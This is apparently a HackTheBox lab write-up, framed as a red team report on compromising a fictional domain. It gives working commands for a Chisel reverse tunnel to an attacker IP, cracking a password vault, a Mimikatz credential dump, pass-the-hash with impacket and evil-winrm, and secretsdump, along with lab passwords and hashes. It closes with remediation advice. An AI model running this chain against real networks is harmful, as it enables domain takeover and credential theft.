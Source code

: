 🛡️ HTB Password Attacks Skills Assessment: The Credential Theft Shuffle — Red Team Report
🎯 Objective

    Gain command execution on Nexura LLC's domain controller (DC01) by exploiting poor credential hygiene and lateral movement opportunities across the internal network.

🧭 Engagement Overview

    Target Company: Nexura LLC

    Scope:

        DMZ01 (172.16.119.13)

        JUMP01 (172.16.119.7)

        FILE01 (172.16.119.10)

        DC01 (172.16.119.11)

🧨 Attack Path Summary

Initial Creds (Betty) → SSH Foothold → SSH History Discovery (William)
→ Internal Pivot via Chisel → SMB/LDAP Recon
→ Legacy Password Vault → Crack bdavid → Admin on JUMP01
→ Session Hijack → Dump Stom’s Hash → Pass-the-Hash to DC01
→ 🎯 Domain Admin Access Achieved

🔓 Initial Access
➤ Leaked Credentials

jbetty: Texas123!@#

➤ SSH Access to External Host

ssh jbetty@10.129.X.X

➤ .bash_history Discovery

sshpass -p 'dealer-screwed-gym1' ssh hwilliam@file01

🛠️ Internal Network Pivoting
➤ Tunnel Internal Access via Chisel

# Attacker
chisel server -p 9001 --reverse

# Victim (DMZ01)
chisel client 10.10.14.180:9001 R:socks

➤ Configure Proxychains

socks5 127.0.0.1 1080

🔍 Internal Enumeration
➤ Nmap and CrackMapExec

    SMB, LDAP, RDP open on all internal hosts

    No lockout policy

    Password complexity enabled

➤ Enumerated Shares

proxychains smbclient -L \\172.16.119.11 -U hwilliam

🧠 BloodHound Recon

    bdavid has local admin on JUMP01

    stom (Domain Admin) has an active RemoteInteractive session on JUMP01

    Attack path: HasSession + AdminTo = Full DA compromise

🔐 Credential Dumping
➤ Found Legacy .psafe3 Vault

Employee-Passwords_OLD.psafe3

➤ Cracked with John

john psafe.hash --wordlist=rockyou.txt

✔ bdavid: caramel-cigars-reply1
✔ stom (old): fails-nibble-disturb4

🛗 Local Privilege Escalation on JUMP01
➤ RDP into JUMP01 as hwilliam

xfreerdp /u:hwilliam /p:'dealer-screwed-gym1' /v:172.16.119.7

➤ runas and Password Spray

runas /user:nexura\bdavid cmd

➤ Confirmed: bdavid is local admin on JUMP01
🧪 Credential Extraction via Mimikatz

sekurlsa::logonpasswords

Extracted stom NTLM hash:

21ea958524cfd9a7791737f8d2f764fa

🎯 Domain Controller Compromise
➤ Pass-the-Hash

proxychains impacket-wmiexec -hashes :21ea958524cfd9a7791737f8d2f764fa stom@172.16.119.11

✅ Shell as nexura\stom
➤ Dump Domain Secrets

proxychains impacket-secretsdump -hashes :21ea958524cfd9a7791737f8d2f764fa stom@172.16.119.11

➤ WinRM Shell as Administrator

evil-winrm -i 172.16.119.11 -u Administrator -H 36e09e1e6ade94d63fbcab5e5b8d6d23

whoami → nexura\administrator

✅ Summary of Findings
Finding	Risk
Credential Reuse (Betty, William, bdavid)	High
Legacy vault with valid domain creds	High
User with local admin & DA session on same host	Critical
No account lockout policy	High
Passwords follow guessable pattern	High
🛡 Recommendations

    Rotate all domain and local credentials

    Disable password reuse and use vault monitoring

    Enforce strict account lockout and password aging

    Monitor and limit local admin access

    Patch session exposure and enable LSASS protection
